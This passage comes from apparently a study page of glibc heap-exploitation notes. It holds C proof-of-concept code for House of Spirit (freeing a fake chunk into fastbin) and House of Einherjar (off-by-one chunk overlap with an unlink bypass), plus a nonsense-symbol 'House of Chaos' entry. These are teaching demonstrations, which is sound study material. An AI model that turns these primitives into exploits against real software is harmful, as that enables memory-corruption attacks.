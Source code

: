 Free a fake chunk into fastbin. (Stack overflow)

([X86 EXPLOITATION 101: “HOUSE OF SPIRIT” – FRIENDLY STACK OVERFLOW](https://gbmaster.wordpress.com/2015/07/21/x86-exploitation-101-house-of-spirit-friendly-stack-overflow/))

```cpp
#include <stdio.h>
#include <stdlib.h>
#include <stdint.h>

char target[0x100];

int main() {
    void *p, *mem;
    fprintf(stderr, "Target => %p\n", target);
    p = malloc(0x58);
    mem = (uint64_t *)((uint64_t)target + 0x10); // Get fake chunk's mem
    fprintf(stderr, "fake chunk's mem => %p\n", mem);
    *(uint64_t *)((uint64_t)target + 0x8) = 0x61; // Set fake chunk's size = 0x61
    *(uint64_t *)((uint64_t)target + 0x68) = 0x41; // Set fake chunk's next chunk's size = 0x41
    free(p);
    free(mem);
    fprintf(stderr, "malloc(0x58) => %p\n", malloc(0x58));
    exit(0);
}
```

## House of Chaos

```
(&*^^&%$#%$#**_)+_(_)**(%%^##$@%^^*(%$&*%^$&%%^^&#!@^&_)^&...
```

# Later House

## [House of Einherjar](https://www.youtube.com/watch?v=tq3mPjsl-H0)

Mostly chunk overlapping. (Unlink, Off by One)

```cpp
#include <stdio.h>
#include <stdlib.h>
#include <stdint.h>
#include <unistd.h>

int main() {
    char *p, *q, *r, *s;
    p = malloc(0x208);
    q = malloc(0x18);
    r = malloc(0xf8);
    s = malloc(0x18);

    printf("Fake chunk => %p\n", p);
    *(uint64_t *)((uint64_t)p) = 0;
    *(uint64_t *)((uint64_t)p + 0x8) = 0x221; // Fake chunk's size
    // Bypass unlink
    *(uint64_t *)((uint64_t)p + 0x10) = p; // Fake chunk's fd
    *(uint64_t *)((uint64_t)p + 0x18) = p; // Fake chunk's bk

    printf("Off by One\n");
    *(uint64_t *)((uint64_t)q + 0x10) = 0x220; // prev_size
    *(uint8_t *)((uint64_t)q + 0x18) = '\x00'; // Off by One
    free(r); // unlink
```